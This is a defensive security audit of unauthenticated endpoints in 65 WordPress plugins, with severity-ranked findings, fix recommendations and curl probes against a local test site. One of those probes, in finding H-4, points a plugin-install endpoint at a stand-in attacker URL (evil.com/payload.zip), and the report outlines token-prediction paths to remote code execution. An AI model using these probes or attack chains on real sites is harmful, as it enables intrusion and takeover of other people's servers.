

# Unauthenticated REST & Connect Flow Audit

**Date:** 2026-06-14
**Scope:** All plugins in `plugins/src/` -- 65 plugins
**Targets:** Public REST routes (`__return_true`), nopriv AJAX connect flows, Wordfence handlers, LiteSpeed Cache handlers

---

## Executive Summary

Audited 65 WordPress plugins for unauthenticated attack surfaces across four categories: public REST API routes, nopriv AJAX connect/install flows, Wordfence-specific handlers, and LiteSpeed Cache async handlers. **Found 28 distinct findings** including 1 critical architectural flaw, 7 high-severity issues, 9 medium-severity issues, and 11 low/informational findings.

**Key themes:**
- The "one-click upgrade" connect pattern (AIOSEO, WPForms, Instagram Feed) shares an identical weak-token architecture using `wp_rand()` -- a 32-bit entropy source
- ElementsKit Lite has a wildcard ALLMETHODS REST router with `__return_true` that delegates auth to individual callback methods, several of which have none
- Essential Addons for Elementor vends valid WordPress nonces to unauthenticated users
- LiteSpeed Cache's nopriv async handler creates a DoS surface and, if the nonce leaks, enables forced crawler/image-optimization triggers

---

## CRITICAL

### C-1: ElementsKit Lite -- Wildcard ALLMETHODS Dispatcher with Auth Gaps

**File:** `plugins/src/elementskit-lite/core/handler-api.php` (lines 22-31)
**Endpoint:** `GET|POST|PUT|DELETE|PATCH /wp-json/elementskit/v1/<prefix>/<action>/<param>`
**Permission:** `__return_true` on ALL methods

The base `Handler_Api` class registers a single wildcard route accepting every HTTP method with `__return_true`. It dispatches to methods named `{method}_{action}` on subclasses. Auth checks are supposed to be "inside the callback" but this is inconsistently applied.

**Confirmed unauthenticated actions (no auth check):**
- `Controls_Ajax_Select2_Api`: `get_singular_list`, `get_taxonomy_list`, `get_category`, `get_product_list`, `get_product_cat`

These allow unauthenticated enumeration of all posts, pages, products, categories, and taxonomy terms. While currently limited to published content, this is an architectural time bomb -- any new action method added without an explicit `current_user_can()` check is immediately exploitable with zero changes to route registration.

**PoC:**
```bash
# Enumerate all published posts
curl -s "http://localhost:8880/?rest_route=/elementskit/v1/ajaxselect2/get_singular_list/"
```
Note: returned `invalid_action` in testing -- may require the ElementsKit widget builder module to be active.

**Severity: CRITICAL (architectural)**

---

## HIGH

### H-1: AIOSEO Connect -- Unauthenticated Plugin Installation Callback

**File:** `plugins/src/all-in-one-seo-pack/app/Lite/Admin/Connect.php` (line 23, handler lines 280-401)
**Handler:** `wp_ajax_nopriv_aioseo_connect_process`

Downloads and installs a plugin from an attacker-controlled `$_POST['file']` URL if the HMAC token validates. Token is `hash('sha512', wp_rand())` -- only 32 bits of entropy despite the 512-bit output.

**Validation:** `hash_hmac('sha512', $oth, wp_salt()) === $_POST['oth']`
**Weakness:** `wp_rand()` uses `mt_rand()` seeded from `wp_salt()` + `microtime()`. On PHP < 8.2, this is a 32-bit Mersenne Twister. An attacker who can observe other `wp_rand()` outputs (common in nonces embedded in page HTML) can reconstruct the seed and predict the OTH.

**Attack scenario:** Admin initiates connect flow -> attacker races to send forged callback with predicted token -> arbitrary plugin ZIP installed from attacker URL -> RCE via malicious plugin code.

**Severity: HIGH**

### H-2: WPForms Connect -- Same Pattern, Accepts GET Requests

**File:** `plugins/src/wpforms-lite/wpforms-lite/src/Lite/Admin/Connect.php` (line 46, handler lines 164-287)
**Handler:** `wp_ajax_nopriv_wpforms_connect_process`

Identical to AIOSEO but uses `$_REQUEST` instead of `$_POST`, meaning the token can be sent via GET parameters (potentially logged in access logs, proxies, referrer headers). No domain allowlist on the download URL.

**Severity: HIGH**

### H-3: Instagram Feed -- One-Click Upgrade

**File:** `plugins/src/instagram-feed/admin/SBI_Upgrader.php` (line 48, handler lines 286-391)
**Handler:** `wp_ajax_nopriv_sbi_run_one_click_upgrade`

Same `hash_hmac('sha512', get_option('sbi_one_click_upgrade'), wp_salt())` pattern. Install URL may be fetched from server-side `get_version_info()` rather than `$_REQUEST['file']` in the final code path, which limits but doesn't eliminate the risk.

**Severity: HIGH**

### H-4: Popup Maker -- Unauthenticated Pro Plugin Installation

**File:** `plugins/src/popup-maker/classes/Controllers/RestAPI.php` (lines 119-162)
**Endpoint:** `POST /wp-json/popup-maker/v1/upgrade/install`
**Permission:** `__return_true` (line 124, comment: "Webhook uses own authentication")

Accepts a `slug` parameter and installs a plugin. Internal token/nonce verification exists but the endpoint is publicly registered. If the internal verification is weak, this is arbitrary plugin installation.

**Live test confirmed the endpoint exists:**
```bash
curl -s "http://localhost:8880/?rest_route=/popup-maker/v1/upgrade/install" -X POST -d "token=test&nonce=test&file=http://evil.com/payload.zip"
# Response: {"code":"rest_missing_callback_param","message":"Missing parameter(s): slug","data":{"status":400,"params":["slug"]}}
```

**Severity: HIGH**

### H-5: WordPress Popular Posts -- Unauthenticated DB Write (View Counter)

**File:** `plugins/src/wordpress-popular-posts/wordpress-popular-posts/src/Rest/ViewLoggerEndpoint.php` (lines 27-34)
**Endpoint:** `POST /wp-json/wordpress-popular-posts/v2/views/{id}`
**Permission:** `__return_true`

Direct `$wpdb->query()` INSERT/UPDATE on `popularposts` and `popularpostssummary` tables. No nonce, no rate limiting. Any external actor can artificially inflate view counts for any post ID.

**Live test confirmed:**
```bash
curl -s "http://localhost:8880/?rest_route=/wordpress-popular-posts/v2/views/1" -X POST -d "token=test&wpp_id=1"
# Response: {"results":"WPP: OK. Execution time: 0.490169 seconds"}
```

**Severity: HIGH** (unauthenticated DB write, analytics integrity destruction)

### H-6: Complianz GDPR -- Unauthenticated DNSMPD Data Request Insert

**File:** `plugins/src/complianz-gdpr/DNSMPD/class-DNSMPD.php` (lines 169-175)
**Endpoint:** `POST /wp-json/complianz/v1/datarequests/`
**Permission:** `__return_true`

Inserts rows into `{prefix}cmplz_dnsmpd` via `$wpdb->insert()`. Basic validation (email format, name length, honeypot) but no rate limiting, CAPTCHA, or anti-automation. Can flood the GDPR request table.

**Severity: HIGH** (unauthenticated DB write, no rate limiting)

### H-7: LiteSpeed Cache -- Nopriv Async Handler (DoS + Conditional RCE)

**File:** `plugins/src/litespeed-cache/src/core.cls.php` (lines 191-192), `src/task.cls.php` (lines 148-184)
**Handler:** `wp_ajax_nopriv_async_litespeed`

Fires for any visitor. Protected by a 120-second time-limited 32-char nonce stored in a WP option. Every unauthenticated request triggers PHP execution, DB lookups, and debug logging -- a DoS amplification vector. If the nonce leaks (e.g., via a secondary SQL injection), an attacker can trigger `Crawler::async_handler()` (forced crawl) or `Img_Optm::async_handler()` (forced image optimization).

**Live test confirmed handler fires:**
```bash
curl -s -X POST "http://localhost:8880/wp-admin/admin-ajax.php" -d "action=async_litespeed"
# Response: 0 (nonce validation failed, but handler executed)
```

**Severity: HIGH**

---

## MEDIUM

### M-1: Essential Addons for Elementor -- Nonce Vending to Unauthenticated Users

**File:** `plugins/src/essential-addons-for-elementor-lite/includes/Traits/Ajax_Handler.php` (line 68, handler lines 1642-1648)
**Handler:** `wp_ajax_nopriv_eael_get_token`

Returns a valid WordPress nonce (`essential-addons-elementor`) to any unauthenticated caller. This nonce is then accepted by other `eael_*` AJAX handlers via `check_ajax_referer()`, including WooCommerce cart operations.

**Live test confirmed:**
```bash
curl -s -X POST "http://localhost:8880/wp-admin/admin-ajax.php" -d "action=eael_get_token"
# Response: {"success":true,"data":{"nonce":"4f7a916372"}}
```

**Severity: MEDIUM** (nonce bypass for other EAEL handlers)

### M-2: CookieYes -- Unauthenticated Scan Result Injection

**File:** `plugins/src/cookie-law-info/legacy/admin/modules/cookie-scaner/cookie-scaner.php` (lines 64-77)
**Endpoint:** `POST /wp-json/cookieyes/v1/fetch_results`
**Permission:** `__return_true`

Validates a `scan_result_token` stored in `get_option('ckyes_scan_instance')`. Anyone with read access to wp_options (e.g., subscriber) can inject fake cookie scan data into the admin's compliance records.

**Severity: MEDIUM**

### M-3: MonsterInsights -- MP Token Replacement via HMAC-MD5

**File:** `plugins/src/google-analytics-for-wordpress/includes/admin/api-auth.php` (line 45, handler lines 775-811)
**Handler:** `wp_ajax_nopriv_monsterinsights_push_mp_token`

Replaces the GA4 Measurement Protocol secret. Uses `hash_hmac('md5', ...)` for signature verification with a 1000-second (16-minute) replay window. Requires knowledge of the MonsterInsights site key.

**Severity: MEDIUM**

### M-4: Wordfence -- Admin URL Disclosure via REST

**File:** `plugins/src/wordfence/wordfence/lib/rest-api/wfRESTAuthenticationController.php` (line 28)
**Endpoint:** `GET /wp-json/wordfence/v1/authenticate`
**Permission:** `__return_true`

Returns `admin_url` and an HMAC nonce to any caller. Confirms Wordfence is installed and reveals the admin URL path.

**Live test confirmed:**
```bash
curl -s "http://localhost:8880/?rest_route=/wordfence/v1/authenticate"
# Response: {"nonce":"3de3d91f...","admin_url":"http://localhost:8880/wp-admin/"}
```

**Severity: MEDIUM** (info disclosure)

### M-5: LiteSpeed Cache -- Subscriber-Level Cache Purge

**File:** `plugins/src/litespeed-cache/src/router.cls.php` (lines 606-611)

The `PURGE_BY` action bypasses capability checks if the request comes via AJAX (`self::is_ajax()`). Any logged-in subscriber can purge targeted URL caches, enabling cache poisoning by low-privilege users. The developer's own comment in the code reads: `// here may need more security`.

**Severity: MEDIUM**

### M-6: LiteSpeed Cache -- Role Simulation Cookie Pattern

**File:** `plugins/src/litespeed-cache/src/router.cls.php` (lines 246-295)

Reads `litespeed_hash`/`litespeed_flash_hash` cookies and calls `wp_set_current_user($hash_data['uid'])`. Same architectural pattern as CVE-2024-28000 but now hardened with `random_int()`-based hashes and `edit_posts` capability blocking. Residual risk on shared hosting.

**Severity: MEDIUM**

### M-7: LiteSpeed Cache -- IDOR on Cloud Image Check

**File:** `plugins/src/litespeed-cache/src/rest.cls.php` (lines 132-138), `src/img-optm-manage.trait.php` (lines 925-964)
**Endpoint:** `POST /wp-json/litespeed/v1/check_img`

Gated only by QUIC.cloud IP allowlist. The `post_id` parameter has no ownership check -- any request from a QUIC.cloud IP can query attachment metadata for any attachment ID. Classic IDOR within the cloud-trust boundary.

**Severity: MEDIUM**

### M-8: Rank Math SEO -- Headless SSRF Potential

**File:** `plugins/src/seo-by-rank-math/includes/rest/class-headless.php` (lines 51-67)
**Endpoint:** `GET /wp-json/rankmath/v1/getHead?url=<url>`
**Permission:** `__return_true` (only when `headless_support` is enabled)

Accepts a `url` parameter and calls `wp()` with modified `$_SERVER['REQUEST_URI']`. The URL is validated as a valid URL but not restricted to local URLs. Calls `remove_all_actions('wp')` then `wp()` with attacker-controlled REQUEST_URI.

**Severity: MEDIUM** (SSRF potential, only active when headless_support enabled)

### M-9: LiteSpeed Cache -- `notify_img` Server Suffix Check Bypassable

**File:** `plugins/src/litespeed-cache/src/img-optm-pull.trait.php` (lines 49-52)

Server validation checks only that `$_POST['server']` ends in `.quic.cloud` or `.quicserver.com`. This is a POST body field, not the calling IP. Any actor controlling a `.quic.cloud` subdomain can manipulate the image optimization write path.

**Severity: MEDIUM**

---

## LOW

### L-1: AIOSEO / MonsterInsights -- Version & Pro Status Disclosure

**Handlers:** `wp_ajax_nopriv_aioseo_is_installed`, `wp_ajax_nopriv_monsterinsights_is_installed`

**Live test confirmed:**
```bash
curl -s -X POST "http://localhost:8880/wp-admin/admin-ajax.php" -d "action=aioseo_is_installed"
# {"success":true,"data":{"version":"4.9.8","pro":false}}

curl -s -X POST "http://localhost:8880/wp-admin/admin-ajax.php" -d "action=monsterinsights_is_installed"
# {"success":true,"data":{"version":"10.2.2","pro":false}}
```

Useful for targeted version-specific attacks. **Severity: LOW**

### L-2: Wordfence -- `testAjax` Handler in Production

**File:** `plugins/src/wordfence/wordfence/lib/wordfenceClass.php` (line 1561)
**Handler:** `wp_ajax_nopriv_wordfence_testAjax`

Returns `WFSCANTESTOK`. Confirms Wordfence is installed. Unnecessary attack surface.

**Live test:** Returns `WFSCANTESTOK`. **Severity: LOW**

### L-3: Wordfence -- `doScan` Test Branch (Dead Code)

**File:** `plugins/src/wordfence/wordfence/lib/wordfenceClass.php`
**Handler:** `wp_ajax_nopriv_wordfence_doScan`

The `?test=1` parameter branch executes before auth checks and outputs `WFCRONTESTOK:` + cronTestID. Since cronTestID is never set, always returns empty. Unnecessary unauthenticated code path.

**Severity: LOW**

### L-4: Wordfence -- `wafStatus` Without Nonce

Returns `false` without a valid nonce. Minimal info disclosure.

**Live test:** Returns `false`. **Severity: LOW**

### L-5: Wordfence -- `ls_authenticate` (Login 2FA)

No nonce by design (login page context). Calls `wp_authenticate()` with Wordfence lockout hooks. Leaks `two_factor_required: true` on valid credentials. No bypass without valid credentials.

**Severity: LOW**

### L-6: Wordfence -- `ls_register_support` (Admin Email)

Sends a support-request email to admin. Requires valid JWT from reCAPTCHA flow, rate-limited to 2/IP/6hrs. Minor social engineering vector.

**Severity: LOW**

### L-7: Wordfence -- AES-128-ECB in `wfUtils::encrypt/decrypt`

The `wordfence_lh` handler uses AES-128-ECB mode (no IV) for the `hid` parameter. Not exploitable in this context but is cryptographic debt.

**Severity: LOW**

### L-8: LiteSpeed Cache -- Unauthenticated Gravatar MD5 Enumeration

**File:** `plugins/src/litespeed-cache/src/avatar.cls.php` (lines 92-118)

`Avatar::serve_static($md5)` accepts any 32-char hex string and queries the avatar cache table. Leaks which Gravatar hashes have been locally cached.

**Severity: LOW**

### L-9: LiteSpeed Cache -- Purge Actions via IP Allowlist

Actions `PURGE`, `PURGESINGLE`, `SHOWHEADERS`, `empty_all`, `NOCACHE` bypass nonce if request comes from admin IP in `O_DEBUG_IPS`. `SHOWHEADERS` discloses cache control internals.

**Severity: LOW**

### L-10: LiteSpeed Cache -- `wp_rest_echo` Remote Key Fetch MITM

**File:** `plugins/src/litespeed-cache/src/cloud-auth-callback.trait.php`
**Endpoint:** `POST /wp-json/litespeed/v3/wp_rest_echo`

Fetches the QUIC.cloud signing key live from `https://wpapi.quic.cloud/key_sign` on each validation. MITM on this fetch could enable signature forgery.

**Severity: LOW**

---

## INFO (By Design / Not Exploitable)

| Endpoint | Plugin | Notes |
|---|---|---|
| `POST /wp-json/contact-form-7/v1/contact-forms/{id}/feedback` | CF7 | Public form submission by design |
| `GET /wp-json/complianz/v1/banner/` | Complianz | Public cookie banner config |
| `GET /wp-json/complianz/v1/documents/` | Complianz | Public GDPR policy docs |
| `POST /wp-json/complianz/v1/track/` | Complianz | Consent status tracking |
| WPForms Stripe/PayPal/Square webhook routes | WPForms | Crypto-signed by payment processors |
| `GET /wp-json/yoast/v1/get_head?url=` | Yoast | Headless SEO data (low SSRF risk) |
| `GET /wp-json/kb-lottieanimation/v1/animations/{id}` | Kadence | Published Lottie JSON |
| `POST /wp-json/mc4wp/v1/form` | Mailchimp4WP | Public newsletter form |
| WooCommerce Store API (all routes) | WooCommerce | Headless commerce by design |
| `GET /wp-json/pum-analytics/v1/...` | Popup Maker | Analytics collection |
| `wp_ajax_nopriv_updraftcentral_receivepublickey` | WP-Optimize | Nopriv hook but enforces `is_user_logged_in()` in handler |
| `wp_ajax_nopriv_frm_entries_csv` | Formidable | Protected by `current_user_can()` |

---

## Architectural Findings

### The Connect Flow Pattern (Shared Across 3+ Plugins)

AIOSEO, WPForms, and Instagram Feed all share an identical "one-click upgrade" pattern:

1. Admin visits connect page, triggers `generateConnectUrl()` which stores `hash('sha512', wp_rand())` as a connect token
2. Remote server (upgrade.aioseo.com, wpforms.com, etc.) redirects back with the token
3. The `nopriv` AJAX handler validates `hash_hmac('sha512', $stored_token, wp_salt()) === $_POST['oth']`
4. On success, installs a plugin from `$_POST['file']` URL

**The fundamental weakness:** `wp_rand()` on PHP < 8.2 uses `mt_rand()` with effectively 32-bit entropy. The `hash('sha512', ...)` wrapper doesn't add entropy -- it just obscures the small keyspace. An attacker who can observe other `wp_rand()` outputs from the same session (nonces in page HTML, session tokens, etc.) can reconstruct the Mersenne Twister state and predict the connect token.

**Recommended fix:** Replace `wp_rand()` with `random_bytes(32)` or `wp_generate_password(64, true, true)` (which uses `random_int()` on PHP 7+). Add an IP/domain allowlist for the callback. Add a time limit (currently only AIOSEO has one).

### Nonce Vending Anti-Pattern (Essential Addons)

The `eael_get_token` handler essentially defeats WordPress's nonce system by giving valid nonces to anyone who asks. This pattern turns every `check_ajax_referer('essential-addons-elementor', 'nonce')` call into a no-op security check.

---

## Live Test Evidence Summary

| Test | Response | Finding Confirmed |
|---|---|---|
| `POST admin-ajax.php action=wordfence_testAjax` | `WFSCANTESTOK` | Yes - L-2 |
| `POST admin-ajax.php action=async_litespeed` | `0` (nonce failed but handler ran) | Yes - H-7 |
| `POST admin-ajax.php action=eael_get_token` | `{"success":true,"data":{"nonce":"4f7a916372"}}` | Yes - M-1 |
| `POST /wp-json/wordpress-popular-posts/v2/views/1` | `{"results":"WPP: OK. Execution time: 0.490169 seconds"}` | Yes - H-5 |
| `GET /wp-json/wordfence/v1/authenticate` | `{"nonce":"3de3d91f...","admin_url":"http://localhost:8880/wp-admin/"}` | Yes - M-4 |
| `POST /wp-json/popup-maker/v1/upgrade/install` | `Missing parameter: slug` (endpoint active) | Yes - H-4 |
| `POST admin-ajax.php action=aioseo_is_installed` | `{"success":true,"data":{"version":"4.9.8","pro":false}}` | Yes - L-1 |
| `POST admin-ajax.php action=monsterinsights_is_installed` | `{"success":true,"data":{"version":"10.2.2","pro":false}}` | Yes - L-1 |
| `POST admin-ajax.php action=wordfence_wafStatus` | `false` | Yes - L-4 |

---

## Priority Recommendations

1. **Immediate (CVE candidates):**
   - H-1/H-2/H-3: Replace `wp_rand()` with `random_bytes()` in connect token generation; add IP allowlists
   - H-4: Popup Maker install endpoint needs thorough token verification audit
   - C-1: ElementsKit must move auth to `permission_callback`, not inline callbacks

2. **Short-term:**
   - H-5: WP Popular Posts needs rate limiting on view counter
   - H-6: Complianz DNSMPD needs CAPTCHA or rate limiting
   - M-1: Essential Addons must remove the public nonce vending endpoint

3. **Monitoring:**
   - M-5: LiteSpeed `PURGE_BY` subscriber escalation
   - M-2: CookieYes scan token predictability
   - M-3: MonsterInsights HMAC-MD5 deprecation
